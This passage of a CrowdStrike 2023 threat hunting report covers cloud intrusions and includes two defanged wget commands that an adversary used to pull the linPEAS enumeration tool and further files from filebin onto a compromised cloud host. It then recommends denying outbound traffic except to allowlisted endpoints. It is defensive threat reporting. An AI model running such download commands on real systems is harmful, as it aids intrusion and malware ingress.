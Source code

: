 wget https\[:]//github\[.]com/carlospolop/PEASS\-ng/releases/download/

\[REDACTED Path]/linpeas\_linux\_amd64 \-O aa

wget https\[:]//filebin\[.]net/\[REDACTED Path]/\[REDACTED FileName]

The cloud discovery module of linPEAS can allow access to sensitive information 
about cloud environments. However, these examples also highlight a long\-term, 
persistent problem Falcon OverWatch observes across many intrusions: Victim 
environments are configured in a way that enables the adversary to access external 
resources from within the victim environment to download additional malware. 

© 2023 CrowdStrike, Inc. All rights reserved. NOWHERE TO HIDECROWDSTRIKE 2023 THREAT HUNTING REPORT33

Defensive Countermeasures

On\-premises security best practices 
apply in the cloud.

In the previous examples, the adversary initiated an outbound connection from 
the cloud workload instance to an external website to download malicious files. 
Cloud workload servers should be subject to at least the same security policies as 
any other server. Best practice dictates that outbound connections initiated from 
any server should be denied other than to allowlisted endpoints.30 This practice 
accomplishes two important goals: First, it helps to deny the adversary access 
to internet resources and prevents direct malware ingress. Second, if an attack 
should progress, it makes it much more difficult for an adversary to exfiltrate data or 
establish a C2 channel directly from the compromised cloud asset to an external 
endpoint. 

Know your systems or invest in security 
measures to improve visibility.

CrowdStrike's cloud\-native application protection platform (CNAPP)31 provides 
visibility into cloud assets and can help security practitioners understand and 
improve the overall baseline security posture and compliance of their environments. 
Falcon OverWatch provides added defense in the cloud for novel threats and alerts 
security teams with contextualized detection information when such threats are 
discovered in a customer's environment.

30 For further guidance, see NIST 800\-53 REV 5, SC\-7(5\).

31 

To learn more about CrowdStrike’s CNAPP solution, see https://www.crowdstrike.com/products/cloud\-security/.

© 2023 CrowdStrike, Inc. All rights reserved. NOWHERE TO HIDECROWDSTRIKE 2023 THREAT HUNTING REPORT34

ECRIME ADVERSARIES USE AZURE RUN 
COMMANDS TO DEPLOY MALWARE

Although not new, a less commonly discussed vector for cloud\-conscious 
execution is the use of Azure Run Commands. In the past year, Falcon OverWatch 
observed multiple instances of eCrime adversaries using this Azure feature 
to attempt script execution across virtual machines (VMs) in Azure cloud 
environments. 
